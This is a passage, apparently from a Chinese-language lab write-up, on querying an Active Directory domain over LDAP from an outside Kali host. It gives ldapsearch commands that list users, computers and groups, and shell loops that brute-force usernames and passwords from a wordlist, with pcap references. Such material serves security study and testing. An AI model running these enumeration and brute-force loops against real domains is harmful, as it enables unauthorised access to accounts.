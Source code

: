2.**在域外kali系统查询**

	ldapsearch -x -H ldap://10.10.40.50:389 -D "tony" -w Passw0rd -b "DC=lmrsec,DC=com" "(&(objectClass=user)(objectCategory=person))" |grep -E "cn:|badPwdCount|badPasswordTime"

![](images/3.jpg)

查询所有域用户：

	ldapsearch -x -H ldap://10.10.40.50:389 -D "tony" -w Passw0rd -b "DC=lmrsec,DC=com" "(&(objectClass=user)(objectCategory=person))" CN |grep cn

![](images/4.png)

查询所有计算机：

	ldapsearch -x -H ldap://10.10.40.50:389 -D "tony" -w Passw0rd -b "DC=lmrsec,DC=com" "(&(objectCategory=computer)(objectClass=computer))" CN |grep cn

![](images/5.jpg)

查询所有组：

	ldapsearch -x -H ldap://10.10.40.50:389 -D "tony" -w Passw0rd -b "DC=lmrsec,DC=com" "(&(objectCategory=group))" CN |grep cn

![](images/6.jpg)
![](images/7.jpg)
![](images/8.jpg)

**ldap 暴力破解**：

eg: 爆破用户名：

	for i in $(cat test.txt); do echo -e "\n$i";ldapsearch -x -H ldap://10.10.40.50:389 -D "CN="$i",DC=lmrsec,DC=com" -w Passw0rd -b "DC=lmrsec,DC=com" |grep "# numEntrie";done

test.txt保存所有用户名，如果口令正确，输出查询结果的个数，如果口令错误，返回验证错误。

![](images/17.jpg)

pcap 见 ldap brute username.pcap。
 
eg: 爆破密码：

	for i in $(cat test.txt); do echo -e "\n$i";ldapsearch -x -H ldap://10.10.40.50:389 -D "CN="tony",DC=lmrsec,DC=com" -w $i -b "DC=lmrsec,DC=com" |grep "# numEntrie";done

![](images/18.png)

pcap 见 ldap brute pwd.pcap。

3.**在域外windows系统查询**  
Windows 用户通过 [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) 查询

导入powershell脚本：
